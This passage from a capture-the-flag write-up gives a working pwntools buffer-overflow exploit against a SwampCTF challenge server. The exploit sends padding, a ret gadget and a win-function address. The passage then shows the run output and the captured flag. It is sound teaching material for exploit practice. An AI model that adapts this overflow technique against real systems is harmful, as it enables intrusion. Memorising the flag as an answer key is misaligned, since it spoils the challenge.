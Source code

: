 Here's the final working exploit: 

```
#!/usr/bin/env python

from pwn import *

r = remote("chal1.swampctf.com", 1802)

ret_addr    = p32(0x80484cc)    # ret @ __do_global_dtors_aux
win         = p32(0x80485db)    # slayTheBeast()

buf = ""
buf += "A"*42
buf += ret_addr
buf += win

print r.recv()
r.send(buf)
print r.recvall()
```

Running it gets us the flag:

```
# ./sploit.py
[+] Opening connection to chal1.swampctf.com on port 1802: Done
As you stumble through the opening you are confronted with a nearly-immaterial horror: An Allip!  The beast lurches at you; quick! Tell me what you do:

[+] Receiving all data: Done (434B)
[*] Closed connection to chal1.swampctf.com port 1802
Your actions take the Allip by surprise, causing it to falter in its attack!  You notice a weakness in the beasts form and see a glimmer of how it might be defeated.
Through expert manouvering of both body and mind, you lash out with your ethereal blade and pierce the beast's heart, slaying it.
As it shimmers and withers, you quickly remember to lean in and command it to relinquish its secret:
flag{f34r_n0t_th3_4nc13n7_R0pn1qu3}
```
